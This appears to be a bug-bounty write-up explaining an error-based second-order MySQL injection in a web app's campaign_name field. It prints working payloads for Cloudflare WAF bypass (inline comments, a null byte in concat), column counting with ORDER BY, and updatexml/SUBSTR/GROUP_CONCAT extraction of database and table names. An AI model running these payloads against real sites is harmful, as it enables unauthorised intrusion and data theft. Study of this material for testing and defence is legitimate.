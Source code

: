 ```yaml
---
title: Accidental second order error based sql injection
tags: sql
author: djxploit
show_author_profile: true
show_title: true
show_date: true
show_tags: true
full_width: false
header: false
footer: true
show_edit_on_github: false
show_subscribe: false
license: false
---
```

Hello everyone.   
So this issue was found on a private program. There was a feature to create campaigns for different purpose. It required various form fields, like campaign_name, duration of the campaign, mode of the campaign(private/public), etc. On submitting the form, a POST request was sent containing the form fields. This will inturn generate a link for the created campaign , and using this link the user could access it. The POST data contain a field `campaign_name` , and that was the injection point.  

I was originally looking for second order xss on this feature, as the value of `campaign_name` field was getting reflected in the source code of the generated campaign (accessible using the generated link). So I tried to see which characters are encoded(in an attempt for possible xss). And in that process, I inserted a `double_quote(")`, and upon visting the generated link, it gave me a sql error. To confirm, I added another `double_quote(")` and the error was gone, and I received a 200 OK response status (On error it was giving me 500 status with the sql error). So this confimed that it is an error-based sql injection. The error message also revealed the structure of the sql query used to retrieve the value of `campaign_name`:  
  ```select name from campaign where name like "campaignx%"```  

So my injection was in `campaignx`. By looking at above query it is evident that injecting a single double quote would break the query, but 2 double quote won't break the query. Also in order to make sure that my injected query doesnot break the original query, I need to discard everything that is after the injection point (the remaining `%"` of the query). For that I need to use comments. Upon trial and error, I found that `#` is working as a valid comment (indicating that the database may be mysql). So my injected query is like :  
  ```select name from campaign where name like "campaignx"injected_data;#%"```  
The semicolon is used to end the statements that are being used in the injection.  

My next option was to extract data. First I tried to check what keywords are allowed. This is because, when I tried to add `and` or `or` keyword, it was blocked by
cloudflare WAF, giving me a 403 status code. So then I checked for `UNION`, luckily this was allowed. Similarly `ORDER by` was also allowed. But white spaces are
not allowed. So I tried various bypasses, and settled on sql inline comments `/**/`. So now I could use `UNION` to execute additional sql queries in the injected
point. So if I am going to use UNION, one thing to remember is that the number of columns, the previous table has, should be equal to number of columns you are
accessing in your query. So if `campaign` table has 3 columns ,then we should also use 3 columns. So the UNION query be like: 
  ```select name from campaign where name like "campaignx"/**/UNION/**/select/**/1,2,3;#%"```  

But as we don't know the column number of the `campaign` table, we need to find that using the `ORDER BY` clause as follows :  
  ```select name from campaign where name like "campaignx"/**/ORDER/**/BY/**/1;#```  
If this returned no error, then we need to increase the `ORDER BY` number, unless we get an error. So for example, if `ORDER BY 5` gives an error, but `ORDER BY 4`
doesnot give an error, then we can conclude that the table `campaign` has 4 columns.  

So now we could finally use the union statement. So I ran the follwoing query:  
  ```select name from campaign where name like "entered campaign"/**/UNION/**/select/**/1,2,3,4;#```  
This gave me 200 status error, meaning that the query executed without any error. So it is valid.
But the thing is none of the 1,2,3 or 4 is reflected in the response. So I could not find which column is reflecting in the output , so which one should I use for 
extracting information. But that was obivious, as this was error-based sql, so only when the query will return error, error will be displayed.  

So searching for cheatsheets and resources, I found that error messages can also be used to extract information. And this is what I used. But out of many techniques, like convert(), duplicate select statements and updatexml(), only updatexml() tends to work in my case. But updatexml also has a limitation, that it can only output 32 chars. But while trying the below query, I ran into a problem :  
  ```"/**/UNION/**/select/**/updatexml(null,(@@version),null),NULL,NULL,NULL,NULL,NULL;#```  
This returned only the last 3 chars of the version.   
Searching more about updatexml() , I found that I need to use concat() , in order to get the full 32 bytes. But soon I found that concat() is also blocked by WAF.
This time I took the challenge, and tried various methods for bypassing by following online resources. Soon I found that using `null byte (0x00)` , I could bypass the WAF. And by null byte, I mean while sending the POST request, edit the request in hex editor(burp suite also provide) and add a null byte(00) between the concat keyword. So the query seems like :  
  ```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(@@version)),null),NULL,NULL,NULL,NULL,NULL;#```  
And this gave me the full version, as the size of the string was below 32 bytes.  

So now I can use following query to retrieve other information.   
Database names can be retrieved by : `select schema_name from information_schema.schemata`  
Table name of current database : `select table_name from information_schema.tables where table_schema=database()`  
Column name of a table : `select column_name from information_schema.columns where table_name="mytablename"`  

But the problem occured, when I tried to implement it.  
  ```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,(select schema_name from information_schema.schemata/**/LIMIT/**/0,1)),null),NULL,NULL,NULL,NULL,NULL;#```  
This gave me the 1st database_name. To get the second one I simply need to increase the LIMIT from 0,1 to 1,1 and so on.  
But what if the 1st database_name is greater than 32 bytes (that would not be the case for database names generally, but would be the case for the records like email,password, as they are generally greater than 32 bytes, considering that they are encrypted). So in that case I would only be able to retrieve the 1st 32 bytes and the rest would simply be truncated.  

So again googling for this situation, I found a stackoverflow thread, that gives a hint towards this situation. So the solution is I need to use SUBSTR()
Query would be :   
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),1,32)),null),NULL,NULL,NULL,NULL,NULL;#```  
This would retrieve the 1st 32 byte of the 1st database name, and to get the remaining part of 1st database name (if there is any), we just need to increase the SUBSTR location number from 1 to 32 like :  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((select schema_name from information_schema.schemata LIMIT 0,1),32,32)),null),NULL,NULL,NULL,NULL,NULL;#```  
and so on.  
Now this query can be used to retrieve the database names. But there is extra query that is being used. For example, if the database name is less than 32 bytes, but if we are still calling the 2nd query to look for 2nd 32 bytes also, then that query is just wastage of time.  
Also if the name is more than 64 bytes, we would need 3 queries to get the full database name. But as we don't know the total length of the database name, we would simply issue 2 queries or a preprogrammed number of queries, and so that would mean wastage of query or loss of data.  
So searching for this , I again found a solution on internet. This solution looks like as follows :  
```"/**/UNION/**/select/**/updatexml(null,concat(0x3a,SUBSTR((SELECT/**/CAST(GROUP_CONCAT(table_name,0x0a)/**/as/**/CHAR(4096))/**/FROM/**/(SELECT/**/*/**/FROM/**/information_schema.tables/**/where/**/table_schema=database())a),1051,32)),null),1,1,1,1,1;#```  
So this query would first retrieve all the table names ,and then it would join them using the concat(), and then using cast() function it would convert the result to character type, and then finally using substr() , we could get them one by one , at 32 bytes per query.  
This is highly optimized, removes the overhead of changing limits to get different tables, also no wastage of query.  

Finally I rerieved all database information. 

**Note: Try the query in your local mysql database, then try in the live website.**  

Resources used :  
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MSSQL%20-%20Error%20Based%20SQLi  
https://security.stackexchange.com/questions/121204/dumping-custom-query-via-sql-injection-when-output-is-in-the-die-function  
http://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-UpdateXML.html  
https://websec.ca/kb/sql_injection  
https://rafaybaloch.com/2017/06/error-based-sql-injection-tricks-in.html  
https://www.exploit-db.com/papers/13650  
https://infosecwriteups.com/a-technique-that-a-lot-of-sql-injection-beginners-dont-know-atmanand-nagpure-write-up-abdc7c269dd5  
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet  
https://www.programmersought.com/article/29625825274/  
https://incogbyte.github.io/hacking/2020/12/12/sqli-bypass-techs.html  
https://medium.com/@hninja049/advance-sql-injection-bypass-waf-10c50fdbb80d  
https://www.sqlinjection.net/time-based/  
https://shahjerry33.medium.com/sql-injection-remote-code-execution-double-p1-6038ca88a2ec  
https://www.exploit-db.com/docs/english/14475-sql-injection-tutorial.pdf  
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md  
https://book.hacktricks.xyz/pentesting-web/sql-injection  
https://www.programmersought.com/article/48964149849/  
